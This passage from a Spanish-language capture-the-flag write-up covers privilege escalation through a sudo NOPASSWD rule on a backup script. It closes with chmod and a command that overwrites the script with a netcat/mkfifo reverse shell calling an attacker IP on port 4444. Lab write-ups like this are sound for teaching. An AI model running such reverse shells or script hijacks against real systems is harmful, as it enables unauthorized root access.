 El resultado revela una entrada crítica para la escalada:

User alex may run the following commands on ubuntu:

(ALL : ALL) NOPASSWD: /etc/mp3backups/backup.sh

Esto significa que alex puede ejecutar el script /etc/mp3backups/backup.sh como root sin necesidad de contraseña. Este es el vector de escalada.

📜 Análisis del Script backup.sh

El siguiente paso es examinar el contenido del script para identificar cómo puede ser manipulado para ejecutar comandos arbitrarios como root.

<img width="1077" height="806" alt="leemos el script de bash" src="https://github.com/user-attachments/assets/3283fcf9-c172-47a1-ab0d-7fcf863a3e94" />

Comando:
````
Bash

cat /etc/mp3backups/backup.sh
````

Si el script no tiene un clean-up adecuado y el OPTARG se puede manipular o si el flag no se establece, el script ejecutará el valor de la variable de entorno $command (o similar), o permitirá que se le pase un argumento que se ejecuta como root.

🎯 Próxima Acción: Explotar el permiso NOPASSWD en el script. Si logramos pasar un comando de reverse shell o el comando para leer la flag al final del script, lo ejecutaremos como root.


## 💥 Paso 17: Escalada de Privilegios por Inyección de Script (Root)

Hemos identificado que el usuario alex puede ejecutar el script /etc/mp3backups/backup.sh como root sin contraseña (Paso 16). 

<img width="668" height="257" alt="enumeramos directorio mp3backups" src="https://github.com/user-attachments/assets/c5515122-0dde-437d-be2e-e49112112b98" />


El método de escalada en este caso es la modificación directa del script para inyectar un comando de reverse shell, aprovechando que alex tiene permisos para modificar o ejecutar chmod en el archivo.

📝 Modificación e Inyección del Payload

Aunque el script se ejecuta como root, alex (el propietario) tiene permisos suficientes para modificar su contenido, lo que nos permite inyectar un payload malicioso.

Habilitar Escritura (Implícito): Aseguramos los permisos de escritura sobre el script.
````
Bash

alex@ubuntu:/etc/mp3backups$ chmod +w backup.sh
````
Inyección del Reverse Shell: Sobrescribimos el script con un comando que intenta conectarse a nuestra máquina atacante (10.11.147.155 en el ejemplo, Puerto 4444) y nos devuelve una shell de root.
````
Bash

alex@ubuntu:/etc/mp3backups$ echo "mkfifo /tmp/lol;nc 10.11.147.155 4444 </tmp/lol | /bin/sh -i 2>&1 | tee /tmp/lol" > backup.sh
````
